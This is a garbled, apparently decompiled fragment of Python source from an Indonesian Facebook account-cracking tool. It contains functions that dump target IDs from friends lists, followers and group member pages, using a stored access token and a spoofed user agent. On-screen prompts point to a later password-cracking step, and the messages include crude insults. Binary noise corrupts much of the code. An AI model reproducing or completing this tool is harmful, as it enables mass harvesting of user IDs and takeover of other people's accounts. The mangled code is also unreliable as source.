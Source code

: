 |
tv r�nt�
|
� W q�   Y q�W qg ttfy�   Y qg tjjy�   td� t�  Y qgw ztd� tt� dt� �ttt�� � t�  W d S  tjjy�   tt� � td� t�  Y d S  ttf�y   tdt� dt� �� t�d� t�  Y d S w )Nrg   r   rh   z#[0;92mChoose Amount Target Max ?: z{k}TutulSALAH KETIK KAU GOBLOK r   r   zTutulGagal Dump Idz r   zEnter User ID z : z https://graph.facebook.com/v2.0/z)?fields=friends.limit(5000)&access_token=rk   rj   Zfriendsr�   rm   r�   rl   z{k}TutulSinyal Loh Kek Kontoll r�   u    [√] Your Total ID>zTutulSinyal Lo kek Kontol u   âž¥Tutulz Pertemanan Tidak Public r�   )r=   r>   r|   r{   �intr�   �
ValueErrorr   rB   �Sessionr�   rG   �uidrA   rC   rq   rr   rm   ru   rw   rx   r�   r�   r�   �settingr^   re   r\   r]   )r}   r~   Zjum�sesZyzZmetZklZuserr�col�miZisorL   rL   rM   r�   I  sf   
�
�&

�
�
�

�r�   c               	   C   s  zt dd��� } t dd��� }W n ty   t�  Y nw td� td�}zDtjd| d td  d	|id
��	� }|d d D ]}zt
�|d
 d |d  � W q?   Y q?tdt� d�t
tt
�� � t�  W d S  tjjy|   td� t�  Y d S  ttfy�   td� t�  Y d S w )Nrg   r   rh   z4TutulKetik ( me ) Jika Ingin Crack Follower Sendiri u   âž¥âž£Input Idz Target : zhttps://graph.facebook.com/z.?fields=subscribers.limit(99999)&access_token=r   ri   rj   Zsubscribersr�   rm   r�   rl   zTutulTotal Idz :r   z!TutulKoneksi Internet Bermasalah zTutulGagal Mengambil Target )r=   r>   r|   r{   r   r�   rB   rC   rq   rr   rm   rA   r�   rG   r�   r�   rw   rx   ru   )r}   r~   ZpilZkoh2ZpirL   rL   rM   �
dump_pengikutx  s,   
�& 
�r�   r�   u   âœ“r�   c                   C   s@   t dt t d ttt�� d � ttt d � 	 t�  d S )N�
z) [1;95mTotal ID Yang Terkumpul :[1;97m z                     zA[1;97m Klik [[1;96m Enter ][1;97m Jika Ingin Langsung Crack !!)r   �balmondr�   rG   r�   rm   r�   r�   rL   rL   rL   rM   �lah�  s   $
r�   c                  C   s�  t d� tdt t d �} d}d|i}d|  }t�� }z
t|j||d�jd�}W n tj	j
yD   t tt d � t�
d	� t�  Y nw |�d
�}|j�dd��dd�}|d
krjt tt d � t�
d	� t�  n|dkrttt d � t�
d	� t�  n	 t dt t d | � |�d�}g }	|D ]}
|
j}|�dd�}zt|�}
|	�|
�}W q�   Y q�t|	�dkr�t tt d � nt tt d t|	d � � t|� d S )Nr�   z# [1;94m>> Input Idz Grup :[1;94m a   Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Internet/53.0.2785.143 Safari/537.36 Mozilla/5.0 (Linux; Android 5.0.2; SAMSUNG SM-T350 Build/LRX22G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/3.2 Chrome/38.0.2125r�   z#https://mbasic.facebook.com/groups/�r�   �html.parserz Koneksi Internet Terputus..g      �?�title� | Facebook� Grup Publik�Masuk Facebookz- Limit, Silahkan Mode Pesawat Dan Coba Lagi..Z	Kesalahanz Grup Tidak Ditemukan..z [1;94m>> Nama Grup :[1;97m �tableZAnggotar   z Anggota : -z [1;94m>> Anggota :[1;97m )r   r�   r�   r�   rB   r�   �parserrC   rD   rw   rx   r�   r\   r]   r{   �find�replaceZ
crack_grupZjalan�p�find_allr�   rA   r�   rG   �grup1)rm   rI   �miskinlu�urlr�   ZgnZberrZberr2ZggsZangZffZanggoZbroZmexZjumlahrL   rL   rM   �grup�  sN   